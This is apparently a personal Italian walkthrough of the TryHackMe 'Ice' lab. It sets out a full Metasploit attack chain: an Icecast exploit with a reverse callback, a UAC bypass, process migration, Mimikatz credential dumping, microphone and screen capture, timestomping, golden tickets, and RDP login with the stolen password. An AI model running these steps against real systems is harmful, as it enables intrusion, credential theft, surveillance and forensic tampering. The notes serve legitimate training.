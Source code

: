 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/ice

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.33.87 -oG risultatoscan
```

```
135,139,445,3389,5357,8000,49152,49154,49158,49159
```

```
sudo nmap -sC -sV -PN -p135,139,445,3389,5357,8000,49152,49154,49158,49159 10.10.212.94 -oN risultatoscan2
```
-Pn perchè il server blocca il pin

Una delle porte più interessanti aperte è Microsoft Remote Desktop (MSRDP) 3389

```
sudo nmap -sV -Pn -p 8000 10.10.212.94
```
servizio:Icecast

```
nmap -A -Pn 10.10.212.94
```
hostname:DARK-PC
icecast vulnerabile  [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/ "CVE-2004-1561 security vulnerability details")

```
msfconsole
```

```
search icecast
```

```
use 0
```

```
show options
```

```
set RHOSTS 10.10.33.87
```

```
set LHOST 10.21.9.220
```

```
exploit
```

```
getuid 
```
(darmi user id tipo whoami) da meterpreter
Server username: Dark-PC\Dark
utente è Dark

==ps== lista dei processi in esecuzione
```
ps
```
==sysinfo== info di sistema
```
sysinfo
```
 ==local exploit suggester== restituirà un bel po' di risultati per potenziali exploit di escalation
```
run post/multi/recon/local_exploit_suggester
```
exploit/windows/local/bypassuac_eventvwr

Ora che abbiamo in mente un exploit per elevare i nostri privilegi, mettiamo in background la nostra sessione corrente usando il comando `background` o `CTRL + z`. Prendi nota del numero di sessione che abbiamo, in questo caso sarà probabilmente 1. Possiamo elencare tutte le nostre sessioni attive usando il comando `sessions` quando siamo fuori dalla shell meterpreter.

```
sessions
```
1 (la sessione che abbiamo è la 1)

Procediamo e selezioniamo il nostro exploit locale trovato in precedenza per utilizzarlo utilizzando il comando `use FULL_PATH_FOR_EXPLOIT`

```
use exploit/windows/local/bypassuac_eventvwr
```

Gli exploit locali richiedono che venga selezionata una sessione (cosa che possiamo verificare con il comando `show options`),

```
show options
```

impostala ora usando il comando `set session SESSION_NUMBER`
 `
```
 set session 1
```
impostata la sessione dove eseguire exploit

```
ip addr
```

```
set LHOST 10.21.9.220
```

```
run
```

Ora possiamo verificare di aver ampliato i permessi usando il comando `getprivs`. 
```
getprivs
```
==permesso che ci consente di prendere possesso dei file==
```
SeTakeOwnershipPrivilege
```

Prima di procedere ulteriormente, dobbiamo passare a un processo che abbia effettivamente i permessi di cui abbiamo bisogno per interagire con il servizio lsass, il servizio responsabile dell'autenticazione in Windows. Per prima cosa, elenchiamo i processi usando il comando `ps`. Nota, possiamo vedere i processi eseguiti da NT AUTHORITY\SYSTEM poiché abbiamo aumentato i permessi (anche se il nostro processo non li ha).

```
ps
```

Per interagire con ==lsass== dobbiamo "living in" in ==un processo che abbia la stessa architettura del servizio lsass== (x64 nel caso di questa macchina==) e un processo che abbia le stesse autorizzazioni di lsass.== Il servizio di ==spool della stampante soddisfa perfettamente le nostre esigenze== per questo e si riavvia se lo blocchiamo! Come si chiama il servizio della stampante?
```
spoolsv.exe
```

In questa domanda è menzionato il termine "living in" un processo. Spesso quando prendiamo il controllo di un programma in esecuzione, alla fine carichiamo un'altra libreria condivisa nel programma (una dll) che include il nostro codice dannoso. Da questo, possiamo generare un nuovo thread che ospita la nostra shell.

Esegui la migrazione a questo processo ora con il comando `migrate -N PROCESS_NAME`

```
migrate -N spoolsv.exe
```
Controlliamo ora che utente siamo con il comando `getuid`. 
```
getuid
```
Quale utente è elencato?
```
erver username: NT AUTHORITY\SYSTEM
```
Ora che abbiamo raggiunto i permessi di amministratore completi, ci concentreremo sul saccheggio. 
==Mimikatz== è uno ==strumento di dumping delle password piuttosto infame==, incredibilmente utile. 
Caricalo ora usando il comando `load kiwi` (Kiwi è la versione aggiornata di Mimikatz)

meterpreter > load kiwi
```
load kiwi
```

```
help
```

Quale comando consente di recuperare tutte le credenziali?

```
creds_all
```

Esegui questo comando ora. Qual è la password di Dark?  
```
Password01!
```

Mimikatz ci consente di rubare questa password dalla memoria anche senza che l'utente 'Dark' abbia effettuato l'accesso, poiché c'è un'attività pianificata che esegue Icecast come utente 'Dark'. Aiuta anche il fatto che Windows Defender non sia in esecuzione sulla casella ;) (Dai un'altra occhiata all'elenco ps, questa casella non è nelle migliori condizioni con sia il firewall che il defender disabilitati)

Prima di iniziare il nostro post-sfruttamento, rivisitiamo un'ultima volta il menu di aiuto nella shell meterpreter. Risponderemo alle seguenti domande usando quel menu.

Quale ==comando ci consente di scaricare tutti gli hash delle password memorizzati sul sistema==? 
```
hashdump
```

Quale ==comando==, sebbene più utile quando si interagisce con una macchina in uso, ==ci consente di osservare il desktop dell'utente remoto in tempo reale==?

```
screenshare
```

E se volessimo ==registrare da un microfono collegato al sistema==?

```
record_mic
```

==Per complicare gli sforzi di analisi forense, possiamo modificare i timestamp dei file sul sistema.== 
Quale comando ci consente di farlo? 
```
timestomp
```

Non farlo mai su un pentest, a meno che non ti venga esplicitamente consentito! Questo non è utile al team di difesa, in quanto cerca di analizzare gli eventi del pentest dopo il fatto.

==Mimikatz ci consente di creare quello che viene chiamato un `golden ticket`, che ci consente di autenticarci ovunque con facilità==. Quale comando ci consente di farlo?
```
golden_ticket_create
```
Gli ==attacchi golden ticket== sono una funzione all'interno di Mimikatz che abusa di un componente di Kerberos (il sistema di autenticazione nei domini Windows), il ticket di concessione ticket. In breve, gli attacchi golden ticket ci consentono di ==mantenere la persistenza e di autenticarci come qualsiasi utente sul dominio.==

Un'ultima cosa da notare. Poiché abbiamo la password per l'utente 'Dark', ora ==possiamo autenticarci sulla macchina e accedervi tramite desktop remoto (MSRDP).== Poiché si tratta di una workstation, probabilmente espelleremmo qualsiasi utente vi abbia effettuato l'accesso se ci connettessimo ad essa, tuttavia, è sempre interessante accedere da remoto alle macchine e visualizzarle come le vedono i loro utenti. Se questa opzione non è già stata abilitata, possiamo abilitarla tramite il seguente modulo Metasploit:  `run post/windows/manage/enable_rdp`

```
run post/windows/manage/enable_rdp
```

```
xfreerdp /u:RELEVANT\Dark /p:'Password01!' /v:10.10.33.87:8000
```





